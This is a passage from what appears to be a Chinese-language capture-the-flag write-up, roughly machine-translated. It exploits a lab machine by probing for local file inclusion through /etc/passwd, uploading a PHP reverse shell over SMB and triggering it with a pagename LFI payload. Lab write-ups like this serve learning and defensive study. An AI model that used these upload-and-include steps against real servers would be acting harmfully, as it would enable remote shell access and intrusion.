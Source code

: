 因为有一个错误，我通过尝试读取 etc/passwd 来测试这是否容易受到 LFI(本地文件包含)的攻击。我没有输出:

![](img/aad4bd27656634edfc0218c29fbabc34.png)

在尝试识别 LFI 的方法后，我想起我们可以通过 SMB 上传文件，文件共享位置是/etc/Files。所以直观上，可能所有的共享都遵循/etc/sharename 格式。我试着从 pentest monkey 上传 php 反向 shell，因为 web 服务器运行在 php 上。

```
➜  writeup smbclient \\\\10.10.10.123\\Development                                                                                    
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> put rev.php 
putting file rev.php as \rev.php (8.3 kb/s) (average 8.3 kb/s)
smb: \> dir
  .                                   D        0  Sat Jul 13 01:36:59 2019
  ..                                  D        0  Wed Jan 23 21:51:02 2019
  rev.php                             A     5492  Sat Jul 13 01:37:46 2019
  test                                A        7  Sat Jul 13 00:39:02 20199221460 blocks of size 1024\. 6458420 blocks available
```

能够上传文件，我试图通过 LFI 触发它。在无数次尝试之后，LFI 在哪里，我终于得到了我的听众的回电。看起来时间戳函数是一个 php 文件。我的 LFI 的 php 扩展触发了回调。

所以对于 LFI 来说，它应该是:

```
pagename=/etc/Development/rev
```

![](img/82f01e68fd7b01229c44da96646f92f2.png)
